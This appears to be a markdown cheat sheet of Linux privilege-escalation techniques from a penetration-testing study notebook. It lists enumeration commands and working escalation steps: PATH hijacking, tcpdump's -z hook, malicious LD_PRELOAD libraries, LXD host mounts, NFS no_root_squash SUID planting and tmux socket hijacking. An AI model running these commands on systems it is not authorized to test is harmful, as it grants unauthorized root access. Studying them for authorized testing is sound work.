

#linux #privesc #suid #sudo #gtfobins

# Linux Privilege Escalation

Related: [fundamentals](fundamentals.md) · [password-attacks](../Passwords/password-attacks.md) · [pivoting](../Network/pivoting.md)

## Contents
- [Privesc Decision Tree](#privesc-decision-tree)
- [Enumeration](#enumeration)
- [Cron / PATH](#cron--path)
- [SUID / Capabilities / sudo](#suid--capabilities--sudo)
- [LD_PRELOAD / LD_LIBRARY_PATH](#ld_preload--ld_library_path)
- [LXD / LXC](#lxd--lxc)
- [NFS (no_root_squash)](#nfs-no_root_squash)
- [Shared tmux / screen](#shared-tmux--screen)

## Privesc Decision Tree

Enumerate first, then walk whichever vector categories come back positive:



## Enumeration

Methodology — work through each check before chasing a specific vector:

- [ ] Check what the user can run as another user (then check GTFOBins)
  ```bash
  sudo -l
  ```
- [ ] Find processes running as root
  ```bash
  ps aux | grep root
  ```
- [ ] Find SUID binaries (`-6000` for SGID)
  ```bash
  find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
  ```
- [ ] Find world-writable files (swap `-type f` for `-type d` for dirs)
  ```bash
  find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
  ```
- [ ] Check kernel version → exploit lookup (`cat /etc/lsb-release` for OS)
  ```bash
  uname -a
  ```
- [ ] Watch processes/cron without root (pspy)
  ```bash
  ./pspy64 -pf -i 1000
  ```
- [ ] Run an automated system audit (Lynis)
  ```bash
  ./lynis audit system
  ```

## Cron / PATH
```bash
ls -la /etc/cron.daily
```
Check for abusable cron jobs.

```bash
PATH=.:${PATH}
```
Prepend `.` to PATH to hijack a relatively-called binary.

## SUID / Capabilities / sudo
```bash
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
Run an arbitrary script as root via tcpdump's `-z` postrotate.

## LD_PRELOAD / LD_LIBRARY_PATH
```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```
Compile a malicious shared library.

```bash
sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart
```
Escalate via LD_PRELOAD on a sudo-allowed binary.

```bash
readelf -d payroll | grep PATH
```
Check a binary's RUNPATH/RPATH for library hijacking (`ldd <bin>` for deps).

## LXD / LXC

> [!NOTE]
> Requires membership in the `lxd` group, which is effectively root-equivalent on the host.

```bash
lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine
lxc init alpine r00t -c security.privileged=true
lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true
lxc start r00t
```
Mount the host root FS inside a privileged container (lxd group).

## NFS (no_root_squash)
```bash
showmount -e 10.129.2.12
sudo mount -t nfs 10.129.2.12:/tmp /mnt
```
Mount an NFS export, then plant a root SUID binary.

## Shared tmux / screen
```bash
tmux -S /shareds new -s debugsess
```
Hijack a root-owned shared tmux socket (also `screen -v` for CVE-2017-5618[^1]).

[^1]: CVE-2017-5618 is a setuid-`screen` privilege escalation affecting builds where `screen` is installed setuid-root (common on older Debian/Ubuntu); it has no effect on systems where `screen` isn't setuid.
